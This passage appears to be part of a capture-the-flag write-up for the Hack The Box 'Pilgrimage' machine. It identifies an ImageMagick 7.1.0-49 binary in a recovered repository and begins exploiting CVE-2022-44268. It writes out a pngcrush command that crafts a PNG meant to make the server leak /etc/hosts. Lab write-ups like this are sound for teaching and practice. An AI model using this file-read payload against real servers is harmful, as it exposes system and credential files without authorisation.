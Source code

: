 The last command `git checkout .` retrieves files from the repository.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage/pilgrimage-repo]
└─$ ls
assets         index.php  logout.php  register.php
dashboard.php  login.php  magick      vendor
```

Apart from `php` files, there's an interesting file `magick`.
It seems that it's an executable file.

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage/pilgrimage-repo]
└─$ file magick                                
magick: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9fdbc145689e0fb79cb7291203431012ae8e1911, stripped
```

Since I cannot run 64-bit executable, I brought the output from 0xdf's blog.

```bash
oxdf@hacky$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

It seems that the ImageMagick's version is 7.1.0-49.



# Shell as `emily`

### CVE-2022-44268

I was able to find existing [PoC fro CVE-2022-44268](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC).

```bash
┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ pngcrush -text a "profile" "/etc/hosts" vjp.png 
  Recompressing IDAT chunks in vjp.png to pngout.png
   Total length of data found in critical chunks            =     48746
   Best pngcrush method        =  10 (ws 15 fm 6 zl 9 zs 1) =     51649
CPU time decode 0.009591, encode 0.061980, other 0.001186, total 0.074123 sec



┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ ls
CVE-2022-44268   pngout.png  test_output.jpeg
pilgrimage-repo  test.jpg    vjp.png



┌──(kali㉿kali)-[~/htb/pilgrimage]
└─$ exiv2 -pS pngout.png


STRUCTURE OF PNG FILE: pngout.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | ............                   | 0x918adfea
```